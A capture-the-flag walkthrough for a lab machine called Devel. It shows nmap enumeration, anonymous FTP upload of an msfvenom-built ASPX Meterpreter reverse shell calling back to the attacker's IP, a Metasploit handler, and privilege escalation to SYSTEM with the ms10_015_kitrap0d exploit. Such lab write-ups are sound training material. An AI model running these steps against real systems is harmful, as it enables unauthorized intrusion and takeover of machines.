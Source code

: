 ## Devel Walkthrough

Devel is a machine that shows how easily a bad-actor can exploit an FTP server with anonymous log-ins allowed.

![Devel (1)](https://user-images.githubusercontent.com/126024971/222150125-691ed746-8105-4885-94eb-647374b40494.png)

---

### Enumeration

IP Address: 10.129.237.99

Start with an namp scan of the target.

`nmap -T4 -A 10.129.237.99`

The scan found two ports:

Port 21 - An FTP server

Port 80 - IIS

![image](https://user-images.githubusercontent.com/126024971/222151820-50bce772-b532-421e-ab4f-71cae41803af.png)

Interestingly, the FTP server allows for anonymous logins. And since IIS is running, this is also a web server.

First, let's check out FTP. You can log into the server with this command:

`ftp 10.129.237.99`

After this you will be prompted for a username, since anonymous login is allowed you can use the anonymous user. When you are prompted for a password, just hit enter and you will be logged into the machine.

![image](https://user-images.githubusercontent.com/126024971/222153347-1dc0a197-6b4c-4c55-b9cf-a7e13a6cc172.png)

We get read/write permisions with the anonymous account. However, we need more information before going further. Navigate to the web server in a browser (be sure to point to port 80). We just the the default IIS splash screen.

![image](https://user-images.githubusercontent.com/126024971/222153829-5868d5f6-9e9f-40f6-a594-0b9f1de54e84.png)

---

### Weaponization 

Since Devel is running IIS in conjunction with the FTP server that we have write permissions to, we can inject an ASPX file. ASPX (Active Server Page Extended) files use scripts to coordinate how a web page behaves. We can use this to our advantage by dropping an ASPX file into the target that provides a reverse shell. To create a ASPX reverse shell file, use this command:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR-IP-ADDRESS LPORT=4444 -f aspx >devel.aspx`

![Screenshot_20230227_023441](https://user-images.githubusercontent.com/126024971/222156199-b4dcd2e0-9895-42f4-af11-d61c4fdbe221.png)

You can run an `ls` command to confirm that the ASPX file is in your current directory:

![Screenshot_20230227_023505](https://user-images.githubusercontent.com/126024971/222156623-5e2d6a66-ed50-4ab6-9ca2-9cd628ae66cd.png)

Now we need to copy the ASPX file onto the FTP server (make sure you are loggged onto the FTP server when running this command).

`put devel.aspx` 

![Screenshot_20230227_023704](https://user-images.githubusercontent.com/126024971/222157080-19a7e454-7414-4ed9-9b00-fab2fe2131b2.png)

Now that the ASPX file is on devel, we need to set up a listening service for the reverse shell to talk to once the ASPX file is ran.There are many ways of doing this, but I like using the multi handler in Metasploit:

`msfconsole`

`use exploit/multi/handler`

`show options`

![image](https://user-images.githubusercontent.com/126024971/222157671-9837d8fd-d546-4d66-b3cf-df4142d106c9.png)

This module only requires the IP of your machine and the listening port. By default, the port is 4444. If you set the port to something different when you had the ASPX file, change the port to whatever you set it to.

`set LHOST YOUR-IP-ADDRESS`

Now the last thing we need is a payload. Since we used windows/meterpreter/reverse_tcp when we made the ASPX file, we will use it again here.

`set payload windows/meterpreter/reverse_tcp`

Now you can run the exploit:

![Screenshot_20230227_024502](https://user-images.githubusercontent.com/126024971/222159769-3287abfe-96d8-4bc4-9357-a3cac433a0f4.png)

It might not look like it is doing anything, but what we have done is we started listening for a response on port 4444. We just need to run the ASPX file now.

Navigate to 10.129.237.99/devel.aspx in a web browser to open the reverse shell:

![image](https://user-images.githubusercontent.com/126024971/222160517-cc1e5599-683d-466a-a7da-4f51884dafee.png)

You won’t see anything here, but if you go back to your Metasploit session you will now have access to the machine:

![image](https://user-images.githubusercontent.com/126024971/222160811-a4204616-fb9a-4ace-b37e-70cddcf59db2.png)

We are not done yet however, we need to escalate privileges since we do not have admin access.

---

### Privilege Escalation

Running the sysinfo command gives us more information about devel, it is a x32 bit Windows 7 machine running 6.1 build 7600.

![image](https://user-images.githubusercontent.com/126024971/222165346-710bf8ae-1bac-4bc0-9be8-08782c463dbd.png)

Since this is a x32 bit Windows 7 machine, we can run the local_exploit_suggester module within Metasploit (This does not work for x64 bit machines).

Use the background command to place the current meterpreter session in the background and then run the following commands:

`msfconsole`

`use post/multi/recon/local_exploit_suggester`

`show options`

![image](https://user-images.githubusercontent.com/126024971/222165698-8997506e-8bbc-4d7a-ba88-4208e873e8b3.png)

The only option that is required is the session. Since we only have one session, this will be set to session 1.

`set SESSION 1`

`run`

This module will take a few minutes to run, but once it has completed you should get something like this:

![image](https://user-images.githubusercontent.com/126024971/222165950-e9a5f93d-7ba9-4aed-8545-f09a514951d9.png)

There are multiple exploits that Metasploit thinks will work, we will use the ms10_015_kitrap0d exploit.

`use exploit/windows/local/ms10_015_kitrap0d`

`show options`

![Screenshot_20230227_030534](https://user-images.githubusercontent.com/126024971/222166663-e5605f8e-1c7a-42bc-b6da-abf9c7b97347.png)

I did have to change the LHOST to my current IP, but other than that you should just need to set the session.

`set LHOST YOUR-IP-ADDRESS`

`set SESSION 1`

`exploit`

If you run the getuid command, you will see that we are now logged in as as the system account

![Screenshot_20230227_030822](https://user-images.githubusercontent.com/126024971/222167149-fc1edd44-9d2c-475c-a98a-6e8be2ee61bd.png)

---

### Getting the Flags

After navigating to the users directory we can see there is a user named babis, I found the user flag within the desktop directory of this user:

![image](https://user-images.githubusercontent.com/126024971/222167758-a6eae9c4-8c98-4b0e-a44e-5c3af50706eb.png)

The root flag is found within the administrator desktop directory:

![image](https://user-images.githubusercontent.com/126024971/222167841-aa67bb85-8d9b-4d78-8fc0-3e8ea9d16825.png)
